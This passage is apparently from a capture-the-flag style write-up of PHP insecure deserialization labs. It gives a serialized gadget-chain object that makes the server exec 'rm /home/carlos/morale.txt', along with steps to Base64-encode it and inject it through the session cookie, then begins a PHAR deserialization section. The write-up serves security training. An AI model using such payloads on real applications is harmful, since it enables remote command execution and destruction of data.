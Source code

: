 

<img width="691" height="630" alt="image" src="https://github.com/user-attachments/assets/ec24eae1-b7ec-4092-8e2b-5c46a5875f13" />




To solve the lab, Base64 and URL-encode the following serialized object, and pass it into the website via your session cookie:

```

O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}

```




So we encode the above  code with base64 

<img width="1265" height="432" alt="image" src="https://github.com/user-attachments/assets/13b9b471-fed4-4814-b750-d90d30abc425" />


And changing cookie to above base64  serilized code




<img width="1877" height="760" alt="image" src="https://github.com/user-attachments/assets/3fdd62ae-07b7-492f-bdf3-e7fce7f0a89d" />



The above  base64 serilized code give us error and lab is solved

<img width="1713" height="837" alt="image" src="https://github.com/user-attachments/assets/559509c4-0eff-4508-afc8-c2b5e5dcb0b3" />


Even if you can't find a gadget chain that's ready to use, you may still gain valuable knowledge that helps you create your own custom exploit.



---

### LAB 10 - Using PHAR deserialization to deploy a custom gadget chain

### Lab Description

<img width="815" height="332" alt="image" src="https://github.com/user-attachments/assets/7e7cb5ae-b54f-43ad-a46c-126377e6d268" />

### Overview: PHAR Deserialization in PHP

**PHAR deserialization** is a technique that allows attackers to exploit insecure deserialization vulnerabilities **even when the `unserialize()` function is not explicitly used** by the application.

---

###  What is PHAR? 
